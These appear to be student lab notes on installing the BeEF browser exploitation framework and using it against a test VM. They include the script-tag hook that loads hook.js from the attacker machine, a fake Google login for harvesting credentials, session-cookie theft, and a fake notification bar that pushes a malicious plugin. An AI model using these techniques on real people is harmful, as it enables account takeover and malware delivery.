

# BeEF

### To install:

update + upgrade VMs 

```jsx
sudo apt-get update
sudo apt-get upgrade
```

install BeEF by typing its name in the the terminal

it will prompt you to ask if you with to install

to all prompts type ‘y’ and press enter

```jsx
beef-xss
```

if it says that not all packages have installed properly, use the following:

```jsx
beef-xss --fix-missing
```

### Once successfully installed:

launch beef using the command:

```jsx
sudo beef-xss
```

the output should look like this:

```jsx
┌──(osboxes㉿osboxes)-[~/Desktop/beef]
└─$ sudo beef-xss         
[-] You are using the Default credentials
[-] (Password must be different from "beef")
[-] Please type a new password for the beef user: 
/usr/bin/beef-xss: line 27: [: =: unary operator expected
[i] GeoIP database is missing
[i] Run geoipupdate to download / update Maxmind GeoIP database
[*] Please wait for the BeEF service to start.
[*]
[*] You might need to refresh your browser once it opens.
[*]
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]    Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>

● beef-xss.service - beef-xss
     Loaded: loaded (/usr/lib/systemd/system/beef-xss.service; disabled; preset: disabled)
     Active: active (running) since Tue 2024-12-03 12:09:41 EST; 5s ago
 Invocation: 65e7ef93a90141499a195d7ca04bec02
   Main PID: 38132 (ruby)
      Tasks: 4 (limit: 4589)
     Memory: 84.7M
        CPU: 667ms
     CGroup: /system.slice/beef-xss.service
             └─38132 ruby /usr/share/beef-xss/beef

Dec 03 12:09:42 osboxes beef[38132]: == 24 CreateAutoloader: migrated (0…====
Dec 03 12:09:42 osboxes beef[38132]: == 25 CreateXssraysScan: migrating …====
Dec 03 12:09:42 osboxes beef[38132]: -- create_table(:xssraysscans)
Dec 03 12:09:42 osboxes beef[38132]:    -> 0.0003s
Dec 03 12:09:42 osboxes beef[38132]: == 25 CreateXssraysScan: migrated (…====
Dec 03 12:09:42 osboxes beef[38132]: [12:09:42][*] BeEF is loading. Wait…s...
Dec 03 12:09:42 osboxes beef[38132]: [12:09:42][!] [AdminUI] Error: Coul…mony
Dec 03 12:09:42 osboxes beef[38132]: [12:09:42]    |_  [AdminUI] Ensure …H` !
Dec 03 12:09:42 osboxes beef[38132]: [12:09:42][!] [AdminUI] Error: Coul…mony
Dec 03 12:09:42 osboxes beef[38132]: [12:09:42]    |_  [AdminUI] Ensure …H` !
Hint: Some lines were ellipsized, use -l to show in full.

[*] Opening Web UI (http://127.0.0.1:3000/ui/panel) in: 5... 4... 3... 2... 1... 
```

when prompted for a password type ‘password’ and press enter

this will then bring up a webpage with a login:

(insert login page picture here (it didn’t paste properly))

login with the credentials

username: beef

password: password

this will bring up the control panel screen for BeEF



### what these tabs mean:

1. **Hooked Browsers:** This is where you'll see a list of all currently hooked browsers. Each browser is listed with details such as IP address, browser name, and operating system. As no browsers are hooked up initially, this section will be empty.
2. **Getting Started:** This section provides guidance on how to use the BeEF framework. It includes information on how to hook a browser and use command modules.
3. **Logs:** This section shows a log of the BeEF activity. This includes interactions with the target browsers, commands sent, responses received, and any errors or important system messages.
4. **Zombies:** In BeEF terminology, a "zombie" is a hooked browser that the BeEF server controls. The "Zombies" section lists these browsers and allows you to interact with them. As no browsers are hooked yet, this section will also be empty.
5. **Basic:** This view provides basic information about the hooked browser, such as the IP address, browser type, and operating system. In this view, you can also use the available command modules to interact with the hooked browser.
6. **Requester:** The "Requester" view lets you manually craft and send HTTP requests from the hooked browser. This can be useful for exploring the website or web application from the perspective of the hooked browser, testing access controls, or performing other manual testing tasks.

### hooking a website:

create an Ubuntu Desktop virtual machine

open a Firefox browser on the Ubuntu VM and navigate to the webpage (replacing the ip with the ip of your kali machine):

```jsx
http://192.168.4.113:3000/demos/butcher/index.html
```

This should bring up a webpage like this:


Once this page has been opened, return to your Kali machine

The Ubuntu VM’s ip should appear under the ‘Online Browsers’ tab


Once this has appeared, click on the ip

this will bring up many built-in options to try out and uses a colour scheme to illustrate which attacks work against the hooked browser


### google phishing:

navigate to the social engineering tab and click on the ‘Google Phishing’ option

this will bring up the following tab:


leave all options as default and click the ‘execute’ button in the bottom right corner

this will bring up the following phishing page on the victim’s (ubuntu VM) browser:


fill out a username and password on the fake google form and click ‘sign in’

return to the Kali VM and the entered credentials will appear in a new tab:


### stealing session cookies:

(cookies are valuable as they allow an attacker to impersonate the user on a website, such as an e-commerce website or the members section of a forum, by taking over the session (as mentioned last week in CSRF attacks))

navigate to the ‘Browser’ tab and click on ‘Get Cookie’

click ‘execute’

this will return the current session cookie from the hooked browser on the Ubuntu machine:


### fake notification bar:

navigate to the ‘Social Engineering’ tab

click on ‘Fake Notification bar (Firefox)’

you can customize the message as you please

click ‘execute’


the following will appear on the Ubuntu Vm’s Firefox browser:


this one is kind of funky but by default it installs a malicious Firefox plugin but you can change the linked URL to whatever malicious file you want in the ‘Plugin URL’ field


there’s a load of different options to try

go wild xoxo